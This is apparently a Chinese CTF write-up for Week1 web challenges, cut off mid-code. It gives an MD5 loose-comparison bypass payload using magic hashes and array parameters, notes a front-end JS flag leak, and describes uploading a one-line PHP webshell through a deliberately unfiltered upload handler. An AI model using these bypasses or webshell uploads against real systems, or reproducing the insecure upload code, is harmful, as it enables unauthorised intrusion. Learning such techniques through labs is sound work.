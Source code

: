 ## [Week1] md5绕过欸

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
require 'flag.php';

if (isset($_GET['name']) && isset($_POST['password']) && isset($_GET['name2']) && isset($_POST['password2']) ){
    $name = $_GET['name'];
    $name2 = $_GET['name2'];
    $password = $_POST['password'];
    $password2 = $_POST['password2'];
    if ($name != $password && md5($name) == md5($password)){
        if ($name2 !== $password2 && md5($name2) === md5($password2)){
            echo $flag;
        }
        else{
            echo "再看看啊，马上绕过嘞！";
        }
    }
    else {
        echo "错啦错啦";
    }

}
else {
    echo '没看到参数呐';
}
?>
```

md5绕过

```php
Get：?name=QNKCDZO&name2[]=1
Post：password=s214587387a&password2[]=2
```

## [Week1] A Dark Room

​![image](https://raw.githubusercontent.com/Wh1teJ0ker/PicGo/main/Pic/20240916164722.png)js前端泄露

## [Week1] upload

一个简单的木马上传，没有任何过滤，上传一句话木马shell.php后直接蚁剑连接即可

路径为url/upload/[文件名]

```php
<?php
error_reporting(0);
if (isset($_FILES['file'])) {
    highlight_file(__FILE__);
    $file = $_FILES['file'];
    $filename = $file['name'];
    $filetype = $file['type'];
    $filesize = $file['size'];
    $filetmp = $file['tmp_name'];
    $fileerror = $file['error'];

    if ($fileerror === 0) {
        $destination = 'uploads/' . $filename;
        move_uploaded_file($filetmp, $destination);
```